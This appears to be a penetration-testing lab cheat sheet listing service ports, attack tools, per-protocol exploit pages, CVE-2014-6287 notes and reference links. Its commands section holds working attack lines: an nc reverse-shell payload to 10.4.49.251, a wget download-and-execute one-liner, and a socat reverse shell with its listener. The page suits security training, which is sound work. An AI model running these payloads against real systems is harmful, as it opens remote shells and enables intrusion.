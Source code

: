 # CheatSheet

## Ports
| Service | Port      |
|:-------:|:---------:|
| FTP     | 20 / 21   |
| SSH     | 22        |
| Telnet  | 23        |
| SMTP    | 25        |
| DNS     | 53        |
| HTTP    | 80        |
| POP3    | 110       |
| HTTPS   | 443       |
| SMB     | 139 / 445 |
| NFS     | 2049      |
| MySQL   | 3306      |

## Tools
- [Rustscan](rustscan.md)
- [Nmap](nmap.md)
- [MSFVenom](msfvenom.md)
- [Gobuster](gobuster.md)
- [Hydra](hydra.md)
- [John the Ripper](john.md)
- [Hashcat](hashcat.md)

## Exploit by protocol
- [SSH](ssh.md)
- [SMB](smb.md)
- [Telnet](telnet.md)
- [NFS](nfs.md)
- [FTP](ftp.md)
- [SMTP](smtp.md)
- [MySQL](mysql.md)

## Useful Commands
Generate shell payload
```
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.4.49.251 4444 >/tmp/f" > shell.sh
```

Download file from local Web server on kali
```
FILE=[FILE NAME]; wget http://10.4.49.251/$FILE -O /tmp/$FILE; chmod +x /tmp/$FILE; sh /tmp/$FILE
```

### Socat
・Target Host  
```
wget http://10.4.49.251/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.4.49.251:4445
```

・Attacker (Kali)
```
socat file:`tty`,raw,echo=0 TCP-L:4445
```

Additional Settings :
```
export SHELL=bash; export TERM=xterm-256color; stty rows 60 columns 126
```

## CVEs
- CVE : 2014-6287 ([39161](cve-2014-6287-39161.md))
- CVE : 2014-6287 ([49125](cve-2014-6287-49125.md))


## Reference

Exploit DB  
https://www.exploit-db.com/

MSF Console Commands  
https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/

Meterpreter Commands  
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

GTFOBins  
https://gtfobins.github.io/

PayloadsAllTheThings / Reverse Shell Cheat Sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

PayloadsAllTheThings / Linux - Privilege Escalation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#find-suid-binaries

CrackStation  
https://crackstation.net/

Hash Analyzer  
https://www.tunnelsup.com/hash-analyzer/

Upgrading Simple Shells to Fully Interactive TTYs  
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
